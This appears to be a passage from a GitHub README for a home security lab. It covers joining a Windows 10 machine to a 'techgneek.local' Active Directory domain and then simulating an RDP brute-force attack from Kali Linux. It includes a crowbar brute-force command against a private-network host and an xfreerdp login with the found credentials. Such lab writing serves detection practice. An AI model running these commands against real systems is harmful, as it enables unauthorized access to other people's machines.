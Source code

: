 ### **Joining Windows 10 to Techgneek.Local Domain Controller**

<div align="center">
  <table>
    <!-- Top Row -->
    <tr>
      <td><img src="https://github.com/user-attachments/assets/60c44bc4-9c38-4514-b63e-58202f059143" width="250"></td>
      <td><img src="https://github.com/user-attachments/assets/663c4f05-d535-4af9-9f9c-96221a5d44c2" width="250"></td>
      <td><img src="https://github.com/user-attachments/assets/220eaf62-af34-4d3e-8321-4c3535372fb7" width="250"></td>
    </tr>
    <tr>
      <td align="center"><b>1. Join Windows 10 to Domain (Start)</b></td>
      <td align="center"><b>2. Point Windows 10 DNS to AD Server</b></td>
      <td align="center"><b>3. Join Windows 10 to techgneek.local</b></td>
    </tr>
<table>
    <!-- Bottom Row -->
    <tr>
      <td><img src="https://github.com/user-attachments/assets/11841f53-0b52-49fa-9656-8aeb47ce9636" width="250"></td>
      <td><img src="https://github.com/user-attachments/assets/288bb219-63d3-489e-906b-8915436873ee" width="250"></td>
      <td><img src="https://github.com/user-attachments/assets/c095fe81-adcf-42d7-bdea-bd85154ba9cd" width="250"></td>
    </tr>
    <tr>
      <td align="center"><b>4. Confirm Windows 10 in Domain (Step 1)</b></td>
      <td align="center"><b>5. Confirm Windows 10 in Domain (Step 2)</b></td>
      <td align="center"><b>6. Confirm Windows 10 in Domain (Step 3)</b></td>
    </tr>
  </table>
</div>



---



## **6. Simulating RDP Brute-Force Attack with Kali Linux & Atomic Red Team Tests**

```sh
# Perform RDP brute-force attack on Windows 10
crowbar -b rdp -u klamar -C password.txt -s 192.168.10.6/32
```

### **Connecting to the Target Machine Using `xfreerdp`**
```sh
xfreerdp /u:klamar /p:P@ssword! /v:192.168.10.6
```
